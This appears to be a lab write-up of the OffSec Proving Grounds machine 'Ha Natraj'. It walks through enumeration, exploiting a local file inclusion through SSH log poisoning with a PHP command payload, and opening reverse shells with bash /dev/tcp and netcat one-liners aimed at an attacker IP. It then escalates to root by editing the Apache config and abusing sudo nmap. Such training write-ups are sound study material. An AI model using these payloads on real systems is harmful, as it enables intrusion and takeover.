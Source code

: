 ```yaml
---
title: OffSec PG - Ha Natraj
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.51.80`

### Network Scan

Nmap scan &rarr; `nmap -sC -sV -Pn -p- -A -o nmap.txt 192.168.51.80`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

### Table

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.29 (Ubuntu)                                 |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.51.80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed &rarr;

- images/
- index.html
- console/

The `console/` directory has a php file present in it called `file.php`.

---

## Exploitation

### LFI

Running the `file.php` file does not give any output. As a good practice checking for LFI using `?file=../../../../../etc/passwd` works out and LFI is possible. There is an ssh service on the machine, therefore, checked log files. The auth log file at `/var/log/auth.log` contains the ssh logs.

### Transition LFI to SSH Log Poisoning

Given the presence of SSH logs, poisoning is tested by using payload &rarr; `ssh "<?php system(\$_GET['cmd']);?>"@<192.168.125.80>`. A failed login attempt gets logged and the php code is inserted. LFI can now be used to execute the php in the log file, with the addition of the `cmd` parameter like so &rarr; `..console/file.php?file=/var/log/auth.log&cmd=id`. This returned the id of the `www-data` user in the response i.e., RCE.

### User shell

Using the RCE, a shell can be spawned by using bash payload &rarr; `bash -i >& /dev/tcp/192.168.49.208/3002 0>&1` to get a reverse shell. This can be done via burp to URL encode and send the payload. There was no bash in the system, therefore reverting to nc and /bin/sh combo &rarr; `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.208 3002 >/tmp/f`.

This gives a `www-data` user shell via netcat.

---

## Privilege Escalation

### Escalated User

With the `www-data` shell, the linenum script can be run (example &rarr; [linenum script](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)). This gives the files which are writable by the current user. One such file is the `apache2.conf` file which can be modified to ensure execution of the web server as a privileged user by editing the User and Group to be `mahakal`, a user detected by looking at the `/etc/passwd` file.

Next, a pentest monkey php reverse shell is plugged into the serving directory for navigation to it. This can be named `exploit.php`. The server needs to be restarted for the new settings to be applied. Therefore, as revealed using `sudo -l`, the server can be restarted as super user without the need of a password using the systemctl command as the `www-data` user.

After it is restarted, a listener can be used to receive shell as the user `mahakal`.

### Root

As the user `mahakal`, the binary that can be run as as a super user without a password as revealed by `sudo -l` is actually `nmap`.

Nmap can be used to launch an interactive interpreter using &rarr;

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
nmap --script=$TF
```

Thus, the shell received is actually that of root. This gives the root flag.

---
